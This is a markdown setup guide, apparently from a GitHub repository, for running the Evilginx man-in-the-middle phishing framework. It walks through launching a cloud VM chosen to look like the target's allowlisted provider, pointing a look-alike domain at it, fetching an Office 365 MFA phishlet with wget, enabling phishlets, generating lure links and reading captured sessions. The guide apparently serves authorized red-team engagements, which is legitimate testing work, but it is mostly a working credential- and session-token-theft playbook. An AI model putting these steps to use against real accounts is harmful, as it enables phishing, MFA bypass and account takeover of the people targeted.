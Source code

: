 # Evilginx Man-in-the-Middle attack framework

### Github repo: https://github.com/kgretzky/evilginx2

### Resources: https://breakdev.org/evilginx-3-3-go-phish/

## Setup:

### Our Evilginx server needs to be accessible over the internet and for this we can stand up a VM from any cloud provider. If the target uses Azure (for example) then this cloud platform address space is likely to be allowlisted, so it would make sense to stand up an Azure virtual machine in that case. We used a Ubuntu Linux EC2 instance.

 - ./evilginx (Run evilginx)

### After running our built evilginx binary we confirm it's working see that we need to specify the path to a directory containing our Evilginx phishlets. Phishlets are small YAML configuration files that configure Evilginx to target specific websites for phishing attacks. The example phishlet exists in the phishlets directory by default.

 - build/evilginx -p phishlets (Specify a path to a directory containing our Evilginx phishlets)

### Next, we need to configure the domain to use for our phishing campaign. You can register a domain if needed. We have used the domain LEGITIMATE_DOMAIN that looks legitimate (example). We also provide Evilginx with the public IP address of the VM or any redirector you have configured. 

 - config ipv4 external EXTERNAL_IP

 - config domain LEGITIMATE_DOMAIN.COM

 - cd phishlets

 - wget https://raw.githubusercontent.com/faelsfernandes/evilginx3-phishlets/main/o365-mfa.yaml (Navigate to the phishlets directory and download a phishlet of your choosing)

### A few phishing subdomains were specified in the phishlet and we can go ahead and create A host records for them in the DNS management section of our domain (your domain provider may look different).

### In the Evilginx console we can configure the hostname that should be used with the phishlet.

 - phishlets hostname PHISHLET_NAME LEGITIMATE_DOMAIN.COM

 - phishlets enable PHISHLET_NAME

 - phishlets hide EXAMPLE_PHISHLET

### Running Evilginx again we see our phishlet and can now create a lure! Lures are pre-generated phishing links that will be sent out on phishing engagements.

### If you want to check the state of your phishlets at any time, you can do so using the phishlets command. Some other helpful commands are below.

Action                =              Command
-----------                         -----------
Function              =              Clear-Token 

Start Evilginx         =             ./evilginx

Close Evilginx          =            exit

Get the phising URL      =           lures get-url <lure-id>

Get the config            =          config

List all phishlets         =         phishlets

List all sessions           =        sessions

Get details from specific session  = sessions <session-id>

Clear screen           =             clear

Hide a phishlet         =            phishlets hide <phishlet-name>

Unhide a phishlet        =           phishlets unhide <phishlet-name>

